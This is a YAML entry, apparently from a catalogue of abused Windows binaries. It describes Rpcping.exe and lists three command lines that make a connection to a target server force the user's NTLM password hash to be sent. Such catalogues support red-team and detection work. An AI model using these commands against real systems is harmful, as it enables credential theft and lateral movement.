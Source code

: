```yaml
---
Name: Rpcping.exe
Description: Credentials
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: rpcping -s 127.0.0.1 -t ncacn_np
    Description: Send a RPC test connection to the target server (-s) sending the password hash in the process.
  - Command: rpcping -s 192.168.1.10 -ncacn_np
    Description: Send a RPC test connection to the target server (-s) sending the password hash in the process.
  - Command: rpcping -s 127.0.0.1 -e 1234 -a privacy -u NTLM
    Description: Send a RPC test connection to the target server (-s) and force the NTLM hash to be sent in the process.
Full Path:
  - C:\Windows\System32\rpcping.exe
  - C:\Windows\SysWOW64\rpcping.exe
Code Sample: []
Detection: []
Resources:
  - https://twitter.com/subtee/status/872797890539913216
  - https://github.com/vysec/RedTips
  - https://twitter.com/vysecurity/status/974806438316072960
  - https://twitter.com/vysecurity/status/873181705024266241
Notes: Thanks to Casey Smith - @subtee, Vincent Yiu - @vysecurity
---
```


